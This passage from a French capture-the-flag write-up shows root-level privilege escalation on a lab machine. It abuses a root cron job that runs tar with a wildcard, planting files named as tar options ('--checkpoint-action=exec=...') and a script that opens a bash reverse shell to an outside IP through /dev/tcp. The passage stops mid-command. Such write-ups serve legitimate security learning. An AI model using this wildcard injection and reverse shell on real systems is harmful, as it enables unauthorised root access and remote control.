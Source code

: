 
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
On s'aperçoit que toutes les minutes, un script backup.sh est lancé

qu'est-ce qu'il y a dans ce fichier :

``` 
www-data@skynet:/home/milesdyson/backups$ cat backup.sh 
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
Quels sont les droits des fichiers dans le dossier ? 

``` 
www-data@skynet:/home/milesdyson/backups$ ls -l
ls -l
total 4576
-rwxr-xr-x 1 root root      74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root root 4679680 Aug 25 07:17 backup.tgz
```
Donc en résumé : Il existe un script de sauvegarde ( backup.sh) qui compresse l'ensemble du répertoire /var/www/html avec tar et enregistre l'archive dans le répertoire personnel de l'utilisateur miles. Le script est exécuté par "root" toutes les minutes. 

Du coup pour escalader les privilèges, on va exécuter un shell privilégié avec tar exécuté par root
``` tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh ```

Utilisons-le pour créer un revershell privilégié. Pour ajouter les 2 options requises, nous allons créer des fichiers 

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.18.94.166/1212 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```
Ensuite on va se rendre dans le fichier /var/www/html 
```
cd /var/www/html && ls
